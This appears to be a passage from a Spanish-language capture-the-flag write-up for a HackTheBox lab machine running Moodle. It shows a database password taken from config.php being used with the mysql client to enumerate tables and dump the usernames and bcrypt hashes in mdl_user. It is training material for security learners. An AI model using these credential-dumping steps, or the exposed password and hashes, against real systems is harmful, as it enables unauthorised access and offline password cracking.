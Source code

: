```bash
  'dbsocket' => '',
  'dbcollation' => 'utf8_unicode_ci',
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';
```

Pero mysql no lo reconoce la maquina, asi que vamos a buscar la ruta absoluta del mysql

```bash
$ find / -type f -iname "mysql" 2>/dev/null
/usr/local/bin/mysql
/usr/local/share/bash-completion/completions/mysql
/var/mail/mysql

$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
moodle

$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show tables from moodle;'                                                                                                         
mysql: [Warning] Using a password on the command line interface can be insecure.                                                                                                            
Tables_in_moodle                                                                                                                                                                            
mdl_analytics_indicator_calc                                                                                                                                                                
mdl_analytics_models
<data>
mdl_user

$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; describe mdl_user;'                                                                                                   
mysql: [Warning] Using a password on the command line interface can be insecure.                                                                                                            
<data>                                                                                                                                       
username        varchar(100)    NO                                                                                                                                                          
password        varchar(255)    NO                                                                                                                                                          
<data>

$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select username,password from mdl_user;'
mysql: [Warning] Using a password on the command line interface can be insecure.
username        password
guest   $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2
admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW
bell_oliver89   $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK
orchid_sheila89 $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC
chard_ellzabeth89       $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC
morris_jake89   $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy
heel_james89    $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim
nash_michael89  $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu
singh_rakesh89  $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu
taint_marcus89  $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa
walls_shaun89   $2y$10$EDXwQZ9Dp6UNHjAF.ZXY2uKV5NBjNBiLx/WnwHiQ87Dk90yZHf3ga
smith_john89    $2y$10$YRdwHxfstP0on0Yzd2jkNe/YE/9PDv/YC2aVtC97mz5RZnqsZ/5Em
white_jack89    $2y$10$PRy8LErZpSKT7YuSxlWntOWK/5LmSEPYLafDd13Nv36MxlT5yOZqK
```